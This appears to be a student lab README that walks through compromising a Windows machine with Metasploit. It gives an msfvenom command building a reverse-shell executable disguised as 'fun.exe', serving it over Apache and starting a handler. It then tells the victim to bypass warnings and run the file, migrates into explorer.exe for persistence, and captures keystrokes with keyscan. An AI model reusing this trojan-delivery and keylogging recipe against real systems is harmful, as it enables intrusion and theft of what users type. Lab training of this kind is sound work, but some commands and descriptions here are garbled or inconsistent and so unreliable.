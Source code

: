 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## PROGRAM:
Find the attackers ip address using ifconfig

## OUTPUT:
![image](https://github.com/subalakshmivenkat/Compromising-windows-using-Metasploit/assets/119393477/c98f03c7-da1c-4f3e-a54e-12a8f4cbc031)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp 
LHOST=192.168.1.2 -f exe > fun.exe

## OUTPUT
![image](https://github.com/subalakshmivenkat/Compromising-windows-using-Metasploit/assets/119393477/5863ecc1-03b2-43e0-bca2-ff056e341ac5)

copy the fun.exe into the apache /var/www/html folder

![image](https://github.com/subalakshmivenkat/Compromising-windows-using-Metasploit/assets/119393477/5c2fb968-50fd-49b9-97f8-174e573bb774)

Start apache server sudo systemctl apache2 start

![image](https://github.com/subalakshmivenkat/Compromising-windows-using-Metasploit/assets/119393477/1e44318b-2388-4d6f-b03b-7d5dd3f8d577)

Check the status of apache2 

![image](https://github.com/subalakshmivenkat/Compromising-windows-using-Metasploit/assets/119393477/b490aa70-26fe-4c9e-b951-e4cafe7a176d)

## Invoke msfconsole:

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit 

![image](https://github.com/subalakshmivenkat/Compromising-windows-using-Metasploit/assets/119393477/7c923e4f-358a-443b-ba14-1c6b51c8157c)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads. 
![image](https://github.com/subalakshmivenkat/Compromising-windows-using-Metasploit/assets/119393477/b849c45d-b731-432a-be4b-676ac9e7de71)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit 
![image](https://github.com/subalakshmivenkat/Compromising-windows-using-Metasploit/assets/119393477/100960dd-96de-4c8a-8246-f140accb5b7a)

To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted 
![image](https://github.com/subalakshmivenkat/Compromising-windows-using-Metasploit/assets/119393477/d1929f8d-2234-4dee-b65e-3311010dae5d)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name. 

![image](https://github.com/subalakshmivenkat/Compromising-windows-using-Metasploit/assets/119393477/0597a407-34bf-4bdd-9d2b-502876e6bc5d)

keyscan_dump Shows the keystrokes captured so far 

![image](https://github.com/subalakshmivenkat/Compromising-windows-using-Metasploit/assets/119393477/9f66c40e-8320-47e0-b97a-f7119a424c23)


## RESULT:
The Metasploit framework for reconnaissance is examined successfully
